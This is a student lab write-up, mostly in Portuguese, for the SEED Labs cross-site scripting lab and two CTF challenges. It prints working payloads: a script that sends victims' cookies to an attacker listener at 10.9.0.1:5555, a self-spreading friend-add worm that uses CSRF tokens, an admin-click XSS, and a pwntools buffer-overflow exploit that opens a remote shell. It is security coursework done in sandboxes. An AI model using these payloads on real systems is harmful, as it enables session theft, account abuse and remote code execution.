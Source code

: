 # SeedLabs: Cross-Site Scripting (XSS) Attack Lab
## Task 1

```html
<script>alert('XSS');</script>
```

Nesta tarefa, foi embebido no nosso perfil o programa de JavaScript apresentado acima, na seccção "Brief Description" e, após sermos redirecionados para o nosso perfil, obtivemos o seguinte resultado:

![Imagem 1](./images/lb10_img1.png)

## Task 2

Esta tarefa foi similar à anterior, obtendo o seguinte resultado:

![Imagem 2](./images/lb10_img2.png)

## Task 3

Começamos por utilizar `nc -lknv 5555` para escutar a conecção na porta especificada, imprimindo o que é enviado pelo client.

A seguir, inserimos o script:

```html
<script>document.write('<img src=http://10.9.0.1:5555?c='
+ escape(document.cookie) + ' >');
</script>
```

Agora, quando o utilizador visita o nosso perfil, um pedido GET é enviado para o nosso servidor, com as cookies da vítima.

![Imagem 3](./images/lb10_img3.png)

## Task 4

First, we inspected the format of the request that allows the user to add a friend. After using the Firefox tool to do that, we intercepted the following request.
Antes de mais, inspecionamos o formato do pedido que permite ao utilizador adicionar um amigo. De seguida, usamos a ferramenta de inspeção de pedidos do Firefox, de modo a intercetar o pedido.

```
GET /action/friends/add?friend=57&__elgg_ts=1641554274&__elgg_token=5c8f4CYIJ_cmq-XmSuwPvQ&__elgg_ts=1641554274&__elgg_token=5c8f4CYIJ_cmq-XmSuwPvQ HTTP/1.1
Host: www.seed-server.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:83.0) Gecko/20100101 Firefox/83.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Connection: keep-alive
Referer: http://www.seed-server.com/profile/boby
Cookie: Elgg=9ecmkv0nrtj18fj28cipgukpgf
```

Após isso, completamos o template fornecido:

O id de utilizador de Samy foi obtido inspecionando um pedido de amizade enviado por outro user para ele.

As variáveis ts e token estão variáveis javascript que permitem ao utilizador identificar a autenticidade do pedido.

```html
<script type="text/javascript">
window.onload = function () {
var Ajax=null;
var samyId=59;
var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
var token="&__elgg_token="+elgg.security.token.__elgg_token;

//Construct the HTTP request to add Samy as a friend.
var sendurl=`/action/friends/add?friend=${samyId}&__elgg_ts=${ts}&__elgg_token=${token}`;

//Create and send Ajax request to add friend
Ajax=new XMLHttpRequest();
Ajax.open("GET", sendurl, true);
Ajax.send();
}
</script>
```

Após escrever o script na secção "About Me" do perfil do utilizador Samy, qualquer outro utilizador que visite o seu perfil tornar-se-á seu amigo automáticamente.

But most of all, samy is my hero.

# CTF

**URL**: ctf-fsi.fe.up.pt

**Port**: 5002/4001

## Desafio 1

De modo a obter a flag, enviamos a seguinte mensagem, de modo que, quando o admin abrir a página com o pedido, este script seja executado, clicando no botão para enviar a flag.

```html
<script>document.getElementById('giveflag').click()</script>
```

## Desafio 2

Neste desafio, criamos um script de modo a colocar shellcode no buffer vulnerável ao exploit de Buffer Overflow, alterando o endereço de retorno para o início do buffer.

```py
#!/usr/bin/python3
from pwn import *

LOCAL = False

if LOCAL:
    r = process('./program')
else:
    r = remote('ctf-fsi.fe.up.pt', 4001)


shellcode = asm(shellcraft.sh())

r.recvuntil(b"buffer is")
buffer_line = r.recvline().strip()[:-1]
encoded_address = p32(int(buffer_line,16))

size = 108
payload = shellcode.ljust(size, b'A') + encoded_address

r.sendline(payload)
r.interactive()
```